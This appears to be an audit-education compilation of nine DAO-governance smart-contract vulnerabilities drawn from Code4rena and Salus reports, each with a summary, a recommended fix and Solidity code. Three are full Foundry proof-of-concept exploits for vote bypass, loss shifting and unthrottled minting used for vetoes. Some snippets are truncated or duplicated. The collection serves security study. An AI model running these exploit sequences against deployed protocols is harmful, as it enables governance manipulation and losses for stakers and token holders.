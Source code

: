 # ETAAcademy-Adudit: 1. DAO

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DAO</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>Governance</th>
          <td>DAO</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] Re-triggering the canOffboard[term] flag to bypass the DAO vote of the lending term offboarding mechanism

### Offboarding lending term

- Summary: The vulnerability allows an attacker to repeatedly trigger offboarding a re-onboarding lending term, bypassing the DAO vote offboarding mechanism. Even after the term is offboarded and cleaned up, the attacker can trigger another offboarding vote before the poll ends, to re-trigger the `canOffboard[term]` flag. This enables the attacker to force offboarding of the re-onboarded term at any time, overriding the DAO vote.

- Impact & Recommendation: The attack not only manipulates offboarding but also triggers silent auctions for existing loans. If a loan fails to attract bids, causing a loss, stakers who voted for the term via the SurplusGuildMinter contract are slashed, impacting both borrowers and stakers significantly. Prevent the offboarding poll from reactivating the `canOffboard[term]` flag after the lending term cleanup, or end the poll if the term has been cleaned up.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-06-re-triggering-the-canoffboardterm-flag-to-bypass-the-dao-vote-of-the-lending-term-offboarding-mechanism) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testPoCBreakingDaoVoteOffboarding() public {
        // Prepare for Attacker
        address Attacker = address(1);
        guild.mint(Attacker, 1);
        vm.prank(Attacker);
        guild.delegate(Attacker);
        // Prepare for Bob
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 POLL_DURATION_BLOCKS = offboarder.POLL_DURATION_BLOCKS();
        uint256 snapshotBlock = block.number;
        uint256 OFFBOARDING_POLL_END_BLOCK = snapshotBlock + POLL_DURATION_BLOCKS;
        // Bob proposes an offboarding of the term
        assertEq(guild.isGauge(address(term)), true);
        offboarder.proposeOffboard(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        vm.expectRevert("LendingTermOffboarding: quorum not met");
        offboarder.cleanup(address(term));
        // Bob votes for offboarding the term and executes the offboarding (he has a sufficient voting weight)
        assertEq(guild.isGauge(address(term)), true);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(offboarder.canOffboard(address(term)), true);
        // Cannot clean up because loans are active
        vm.expectRevert("LendingTermOffboarding: not all loans closed");
        offboarder.cleanup(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        // Get enough CREDIT to pack back interests
        vm.stopPrank();
        uint256 debt = term.getLoanDebt(aliceLoanId);
        credit.mint(alice, debt - aliceLoanSize);
        // Alice closes loan
        vm.startPrank(alice);
        credit.approve(address(term), debt);
        term.repay(aliceLoanId);
        vm.stopPrank();
        // Clean up the term
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        offboarder.cleanup(address(term));
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        assertEq(offboarder.canOffboard(address(term)), false); // The canOffboard[term] flag has been reset
        assertEq(core.hasRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term)), false);
        assertEq(core.hasRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term)), false);
        // Attacker votes for offboarding the term to re-trigger the canOffboard[term] flag again
        vm.startPrank(Attacker);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.canOffboard(address(term)), true); // Attacker has re-triggered the canOffboard[term] flag
        vm.stopPrank();
        // Next 10 days
        // Offboarding poll expired
        vm.roll(block.number + 66460); // 10 days
        vm.warp(block.timestamp + 66460 * 13);
        assertGt(block.number, OFFBOARDING_POLL_END_BLOCK);
        // The term is re-onboarded
        assertEq(guild.isGauge(address(term)), false);
        guild.addGauge(1, address(term));
        assertEq(guild.isGauge(address(term)), true);
        // Next 30 days
        vm.roll(block.number + 199380); // 30 days
        vm.warp(block.timestamp + 199380 * 13);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        // Attacker offboards the term by overriding the DAO vote offboarding mechanism
        vm.startPrank(Attacker);
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
    }

  ```

  </details>

## 2. [Medium] The gauge status wasn’t checked before reducing the user’s gauge weight.

### Reduce weight to transfer loss

- Summary: In the event of any loss triggered by **`ProfitManager#notifyPnL()`**, all staked guild tokens on the lending term will be entirely slashed through **`GuildToken#notifyGaugeLoss()`**, with termSurplusBuffer[gauge] depleting and donating to surplusBuffer. Loss will first decrease from surplusBuffer, and if surplusBuffer is insufficient, the remaining loss will reduce the creditMultiplier for each credit token. A term can be offboarded if deemed unsafe, pausing the redemption function of the corresponding SimplePSM. Once offboarded, potential losses are distributed to all credit token holders, as exiting in advance is not possible. However, guild holders can reduce their weight on the offboarded term, transferring potential losses to other holders.

- Impact & Recommendation: Preventing gauge weight deprecation upon offboarding a lending term is advisable, particularly with surplus GUILD minter, as it ensures protection for passive lenders by retaining surplus buffer capital that may otherwise escape.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-17-the-gauge-status-wasnt-checked-before-reducing-the-users-gauge-weight) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testOffboardTermAndDecrementGauge() public {
        //@audit-info term2 is deployed
        LendingTerm term2 = LendingTerm(Clones.clone(address(new LendingTerm())));
        term2.initialize(
            address(core),
            LendingTerm.LendingTermReferences({
                profitManager: address(profitManager),
                guildToken: address(guild),
                auctionHouse: address(auctionHouse),
                creditMinter: address(rlcm),
                creditToken: address(credit)
            }),
            LendingTerm.LendingTermParams({
                collateralToken: address(collateral),
                maxDebtPerCollateralToken: _CREDIT_PER_COLLATERAL_TOKEN,
                interestRate: _INTEREST_RATE,
                maxDelayBetweenPartialRepay: 0,
                minPartialRepayPercent: 0,
                openingFee: 0,
                hardCap: _HARDCAP
            })
        );
        vm.startPrank(governor);
        core.grantRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term2));
        core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term2));
        vm.stopPrank();
        //@audit-info active term2, which has the same gauge type with term1
        guild.addGauge(1, address(term2));
        //@audit-info mint 2e18 guild token to carol
        guild.mint(carol, 2e18);
        vm.startPrank(carol);
        guild.incrementGauge(address(term), 1e18);
        guild.incrementGauge(address(term2), 1e18);
        vm.stopPrank();
        // prepare (1)
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 snapshotBlock = block.number;
        //@audit-info bob propose to offboard term
        offboarder.proposeOffboard(address(term));
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 13);
        //@audit-info term is able to be offboarded with enough votes.
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.polls(snapshotBlock, address(term)), _QUORUM + 1);
        assertEq(offboarder.canOffboard(address(term)), true);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        offboarder.offboard(address(term));
        //@audit-info term is offboarded
        assertEq(guild.isGauge(address(term)), false);
        //@audit-info the redemption function is paused, no one can redeem their credit token
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        vm.stopPrank();
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 1e18);
        vm.prank(carol);
        //@audit-info however, carol can decrement their gauge weight on term
        guild.decrementGauge(address(term), 1e18);
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 0);
    }

  ```

  </details>

## 3. [Medium] RateLimitedMinter isn’t used by SimplePSM resulting in Governance attacks

### Use rate limiter to mint or burn token

- Summary: ProfitManager and SimplePSM contracts don't use rate limiter so that the `RateLimitedMinter` buffer is never replenished. Attacker mints gUSDC tokens in the PSM contract without rate limiter, then using them to take malicious voting action in GuildVetoGovernor and cancel actions in the queue quickly without any consequences, because `ProfitManager.creditMultiplier` doesn’t decline.

- Impact & Recommendation: Use rate limiter across all contracts in the protocol when minting or burning Credit and Guild tokens.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-21-ratelimitedminter-isnt-used-by-simplepsm-resulting-in-governance-attacks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {MockERC20} from "@test/mock/MockERC20.sol";
    import {SimplePSM} from "@src/loan/SimplePSM.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {IGovernor} from "@openzeppelin/contracts/governance/IGovernor.sol";
    import {GuildVetoGovernor} from "@src/governance/GuildVetoGovernor.sol";
    import {GuildTimelockController} from "@src/governance/GuildTimelockController.sol";
    import "@forge-std/console.sol";
    contract Poc4 is Test {
        Core private core;
        ProfitManager private profitManager;
        CreditToken credit;
        GuildToken guild;
        MockERC20 private pegToken;
        SimplePSM private psm;
        uint256 private constant _TIMELOCK_MIN_DELAY = 12345;
        GuildTimelockController private timelock;
        GuildVetoGovernor private vetoGovernor;
        uint256 __lastCallValue = 0;
        // From deployment script!

        uint256 private constant _VETO_QUORUM = 5_000_000e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManager = new ProfitManager(address(core));
            credit = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManager));
            pegToken = new MockERC20(); // USDC
            pegToken.setDecimals(6);
            psm = new SimplePSM(
                address(core),
                address(profitManager),
                address(credit),
                address(pegToken)
            );
            timelock = new GuildTimelockController(
                address(core),
                _TIMELOCK_MIN_DELAY
            );
            // VetoGovernor for gUSDC
            vetoGovernor = new GuildVetoGovernor(
                address(core),
                address(timelock),
                address(credit),
                _VETO_QUORUM // 5Mil gUSDC
            );
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(psm));
            core.grantRole(CoreRoles.CREDIT_GOVERNANCE_PARAMETERS, address(this));
            core.createRole(CoreRoles.TIMELOCK_EXECUTOR, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_EXECUTOR, address(0));
            core.createRole(CoreRoles.TIMELOCK_CANCELLER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_CANCELLER, address(vetoGovernor));
            core.createRole(CoreRoles.TIMELOCK_PROPOSER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_PROPOSER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            credit.setMaxDelegates(1);
        }
        function __dummyCall(uint256 val) external {
            __lastCallValue = val;
        }
        function _queueDummyTimelockAction(
            uint256 number
        ) internal returns (bytes32) {
            address[] memory targets = new address[](1);
            targets[0] = address(this);
            uint256[] memory values = new uint256[](1);
            bytes[] memory payloads = new bytes[](1);
            payloads[0] = abi.encodeWithSelector(
                Poc4.__dummyCall.selector,
                number
            );
            bytes32 predecessor = bytes32(0);
            bytes32 salt = keccak256(bytes("dummy call"));
            timelock.scheduleBatch(
                targets,
                values,
                payloads,
                predecessor,
                salt,
                _TIMELOCK_MIN_DELAY
            );
            bytes32 timelockId = timelock.hashOperationBatch(
                targets,
                values,
                payloads,
                0,
                salt
            );
            return timelockId;
        }
        function test_poc() public {
            address Alice = address(100);
            // Schedule an action in the timelock, Alice will veto it.
            bytes32 timelockId = _queueDummyTimelockAction(12345);
            // Afluent Alice has 6Mil of USDC and mints gUSDC in PSM
            // PSM isn't rate-limited (there is no cap)!
            pegToken.mint(Alice, 6_000_000e6);
            vm.startPrank(Alice);
            pegToken.approve(address(psm), 6_000_000e6);
            psm.mint(Alice, 6_000_000e6);

            // Alice has enough voting power!
            require(credit.balanceOf(Alice) > vetoGovernor.quorum(0));
            credit.delegate(Alice);
            // Alice creates a Veto proposal
            uint256 proposalId = vetoGovernor.createVeto(timelockId);
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            // Alice cast a vote against
            vetoGovernor.castVote(proposalId, uint8(GuildVetoGovernor.VoteType.Against));
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            (
                uint256 againstVotes,
                uint256 forVotes,
                uint256 abstainVotes
            ) = vetoGovernor.proposalVotes(
                proposalId
            );
            // There is a Quorum, Alice can execute Veto proposal
            require(againstVotes > vetoGovernor.quorum(0));
            vetoGovernor.executeVeto(timelockId);
            vm.stopPrank();
        }
    }

  ```

  </details>

## 4. [High] If a gauge that a user has voted for gets removed, their voting power allocated for that gauge will be lost

### Vote requirement for gauge

- Summary: The GaugeController, based on Curve DAO's Vyper implementation, allows users to vote for incentive allocation using the vote_for_gauge_weights() function. However, governance can remove gauges, preventing further voting but leaving existing users' voting power intact. Specifically, a new require statement has been added to check if the gauge type is greater than 0, but this fix doesn't address the issue effectively because the gauge type for a nonexistent gauge is always 0.

- Impact & Recommendation: Remove the requirement checking for nonzero gauge types at the specified address to allow users to reclaim their votes from removed gauges.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-neobase#h-01-if-a-gauge-that-a-user-has-voted-for-gets-removed-their-voting-power-allocated-for-that-gauge-will-be-lost) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.add_type("", 0);
        gc.add_gauge(gauge2, 1);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }

    function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.change_gauge_weight(gauge1, 100);
        gc.add_type("", 100);
        gc.add_gauge(gauge2, 1);
        gc.change_gauge_weight(gauge2, 100);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }


  ```

  </details>

## 5. [Medium] Issue from previous audit still present: Gauge can have bigger weight than was intended by protocol

### Change gauge weight

- Summary: Users can exploit the "change_gauge_weight" function by monitoring the mempool for calls and front-running them to remove their voting power before the change occurs. This allows them to manipulate the gauge's weight, increasing it beyond the intended value set by governance.

- Impact & Recommendation: Remove `change_gauge_weight` function.
  <br> 🐬: [Source](hhttps://code4rena.com/reports/2024-03-neobase#m-03-issue-from-previous-audit-still-present-gauge-can-have-bigger-weight-than-was-intended-by-protocol) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      /// @notice Allows governance to overwrite gauge weights
    /// @param _gauge Gauge address
    /// @param _weight New weight
    function change_gauge_weight(address _gauge, uint256 _weight) public onlyGovernance {
        _change_gauge_weight(_gauge, _weight);
    }

  ```

  </details>

## 6.[Medium] Missing disapproval check in LockManager.sol::approveUSDPrice allows simultaneous approval and disapproval of a price proposal

### Disapproval check

- Summary: Due to a missing disapproval check, a price feed can both disapprove and then approve a newly proposed price, which contradicts the intended functionality of voting either for approval or disapproval.

- Impact & Recommendation: To mitigate this, add a check to ensure a price feed has not already disapproved a proposal before allowing approval, and revert with a custom error if this condition is met.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-05-munchables#m-01-missing-disapproval-check-in-lockmanagersolapproveusdprice-allows-simultaneous-approval-and-disapproval-of-a-price-proposal) & [Report](https://code4rena.com/reports/2024-05-munchables)

<details><summary>POC</summary>

```solidity
    function approveUSDPrice(
        uint256 _price
    )
        external
        onlyOneOfRoles(
            [
                Role.PriceFeed_1,
                Role.PriceFeed_2,
                Role.PriceFeed_3,
                Role.PriceFeed_4,
                Role.PriceFeed_5
            ]
        )
    {
        if (usdUpdateProposal.proposer == address(0)) revert NoProposalError();
        if (usdUpdateProposal.proposer == msg.sender)
            revert ProposerCannotApproveError();
        if (usdUpdateProposal.approvals[msg.sender] == _usdProposalId)
            revert ProposalAlreadyApprovedError();
+       if (usdUpdateProposal.disapprovals[msg.sender] == _usdProposalId)
+           revert ProposalAlreadyDisapprovedError();
        if (usdUpdateProposal.proposedPrice != _price)
            revert ProposalPriceNotMatchedError();
        usdUpdateProposal.approvals[msg.sender] = _usdProposalId;
        usdUpdateProposal.approvalsCount++;
        if (usdUpdateProposal.approvalsCount >= APPROVE_THRESHOLD) {
            _execUSDPriceUpdate();
        }
        emit ApprovedUSDPrice(msg.sender);
    }

```

<details>

## 7.[High] A successfully disputed redemption proposal has still increased the redemption fee base rate; exploit to depeg dUSD

### Rate doesn't decrease when redemptions disputed

- Summary: The issue causing dUSD to depeg can be exploited due to a flaw in the redemption fee mechanism, where the base rate increases with proposed redemptions but doesn't decrease when disputed. Attackers can manipulate this by using different accounts to propose and dispute redemptions, maintaining high fees and disincentivizing necessary redemptions to restore the peg. This exploit can lead to persistent depegging, enabling market manipulation where attackers buy cheap dUSD and later redeem it for profit.

- Impact & Recommendation: To mitigate this, the base rate should not be affected by disputed proposals, the fee structure should be re-evaluated, and sufficiently large redemption proposals should be required to prevent manipulation.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-dittoeth#h-01-a-successfully-disputed-redemption-proposal-has-still-increased-the-redemption-fee-base-rate-exploit-to-depeg-dusd) & [Report](https://code4rena.com/reports/2024-03-dittoeth)

<details><summary>POC</summary>

```solidity

    uint88 redemptionFee = calculateRedemptionFee(asset, p.totalColRedeemed, p.totalAmountProposed);

```

</details>

## 8.[High] Vote tally incorrect when there is no governance token

### Vote token and tally

- Summary: In BaseCommittee.sol the vote tally could be incorrect if no governance token exists. The `_getVoteRequirement` function determines the vote token type, and `_calculatePledgeValue` relies on this type to calculate the pledge value. If a proposal requires a governance token (voteTokenType == 2) and the DAO lacks one, the tally defaults to using a badge's pledge value, causing discrepancies.

- Impact & Recommendation: The recommendation was to base pledge value calculations solely on voteTokenType.
  <br> 🐬: [Source](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2024-05-09.pdf) & [Report](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2024-05-09.pdf)

<details><summary>POC</summary>

```solidity
  function _getVoteRequirement(VoteIdentity memory identity) internal view
      returns (
          uint256 voteTokenType,
          uint256 baseReqTokenType,
          uint256 baseReqTokenAmt
      )
  {
      bytes32 typeID;
      bytes memory intData;
      (typeID, intData) = IProposalHandler(getParentDAO())
      .getProposalMetadata(identity.proposalID, VOTE_TOKEN_TYPE);
      if (intData.length > 0) {
          voteTokenType = abi.decode(intData, (uint256));
      }
      ...
      (address govToken, address badgeAddress) = IDAO(getParentDAO())
      .getDAOTokenInfo();
      if (voteTokenType == 0) {
          if (govToken != address(0)) {
              // use economy token's pledge value
              voteTokenType = 2;
          } else {
              // use badge's pledge value
              voteTokenType = 1;
          }
      }
      if (voteTokenType == 1) {
          baseReqTokenType = 2;
      } else {
          baseReqTokenType = 1;
      }
  }

    function _calculatePledgeValue(
        VoteIdentity memory identity,
        address user,
        uint256 votes
    )
        internal
        view
        returns (bool requirePledgeEngine, uint256 requirePledgeValue)
    {
        (
            uint256 voteTokenType,
            uint256 baseReqTokenType,
            uint256 baseReqTokenAmt
        ) = _getVoteRequirement(identity);
        (address govToken, address badgeAddress) = IDAO(getParentDAO())
        .getDAOTokenInfo();
        if (govToken == address(0) || voteTokenType == 1) {
            // no govenance token, P(ledge)=1，B=badge in the wallets
            requirePledgeValue = IERC20(badgeAddress).balanceOf(user);
            requirePledgeEngine = false;
        } else {
            // there governance tokens, B(adge)=1，badge > 0
            requirePledgeValue = votes;
            requirePledgeEngine = true


```

</details>

## 9.[High] InkBadge token being transferable can lead to a repeat voting attack

### Maximum votes

- Summary: When no governance token is set, the balance of InkBadge tokens determines the maximum votes a user can cast. An attacker can exploit this by voting, transferring the InkBadge to another account, and voting again, thus manipulating the vote outcome.

- Impact & Recommendation: The recommendation is to disable transfers for the InkBadge token.
  <br> 🐬: [Source](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2023-12-25.pdf) & [Report](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2023-12-25.pdf)

<details><summary>POC</summary>

```solidity
function _vote(
    VoteIdentity memory identity,
    bool agree,
    uint256 count,
    bool requestPledge,
    string memory feedback,
    bytes memory data
) internal {
    // pledge
    (
        bool requirePledgeEngine,
        uint256 requirePledgeValue
    ) = _calculatePledgeValue(_msgSender(), count);
    if (requestPledge) {
        if (requirePledgeEngine) {
            // address stakingEngine = IDAO(getParentDAO()).getStakingEngine();
            IDAO(getParentDAO()).pledge(
                _msgSender(),
                identity.proposalID,
                requirePledgeValue
            );
        } else {
            (, address badgeAddress) = IDAO(getParentDAO())
                .getDAOTokenInfo();
            uint256 decimal = IERC20Metadata(badgeAddress).decimals();
            // require badge
            // require(
            // count * 10**decimal <= requirePledgeValue,
            // "badge is not enough"
            // );
            if (count * 10**decimal > requirePledgeValue) {
                revert INK_ERROR(1017);

```

</details>
